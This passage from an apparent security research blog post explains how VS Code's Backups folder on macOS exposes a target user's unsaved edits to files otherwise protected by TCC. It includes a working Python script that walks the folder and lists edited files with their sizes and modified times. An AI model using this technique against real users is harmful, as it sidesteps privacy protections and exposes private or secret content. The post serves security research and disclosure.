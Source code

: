 Here we note that upon making changes to our `secrets.txt` file, a new file is created in the following top-level folder:

{% highlight bash %}
~/Library/Application Support/Code/Backups/
{% endhighlight %}

Returning to our Terminal, let's attempt to read the contents of that file:

![Reading VSCode Backup File](/images/2022-03-22-vscode/s3.png)

Here we can view the unsaved changes our target user has made to files that would otherwise be protected by TCC.

By recursing through this `Backups` directory, we can see which files are being edited, as well as their modified times.

The following Python code could be used to achieve this:

{% highlight python %}
import os, json
from pprint import pprint
from prettytable import PrettyTable
import time

path = "/Users/{}/Library/Application Support/Code/Backups".format(os.environ["USER"])

x = PrettyTable()
x.field_names = ["Backup File", "Original File", "Size", "Modified Time", "Type"]
x.align["Backup File"] = "l"
x.align["Original File"] = "l"

for root, dirs, files in os.walk(path):
   for file in files:
       if file != ".DS_Store" and file != "workspaces.json":
            path = os.path.join(root, file)
            with open(path, "r") as f:
                file_content = f.readlines()
                json_data = json.loads("{" + file_content[0].split("{")[1].rstrip())
                if os.path.basename(root) == "untitled":
                    x.add_row([path, file_content[0].split("{")[0].replace("untitled:","").rstrip(), "-", "-", "new"])
                else:
                    x.add_row([path, file_content[0].split("{")[0].replace("file://","").rstrip(), f"{json_data['size']} B", \
                        time.strftime('%Y-%m-%d %H:%M:%S', time.localtime(json_data["mtime"]/1000)) ,"edit"])
print(x)
{% endhighlight %}
